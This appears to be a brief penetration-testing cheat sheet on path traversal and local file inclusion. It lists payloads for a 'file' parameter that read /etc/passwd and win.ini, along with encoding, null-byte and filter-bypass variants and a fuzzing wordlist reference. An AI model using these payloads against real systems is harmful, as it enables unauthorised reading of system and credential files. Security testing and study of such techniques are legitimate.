 # Method
1. Standard Path Treversal via file Parameter
	?file= ../../../../etc/passwd 
	?file=..\..\..\windows\win.ini
	?file=WordlistFUZZ:\SecLists\SecLists-master\Fuzzing\LFI

2. Url encode %2e%2e%2f Double URL encode
3. Absolute path:
	?file=/etc/passwd
4. Different Starting Points:
	/var/www/images/../../../../etc/passwd
5. Different Payloads
	Url encoded 
	Nullbytes %00
	Nullbyte extension file%00.jpg (different extensions)
	double ....//
	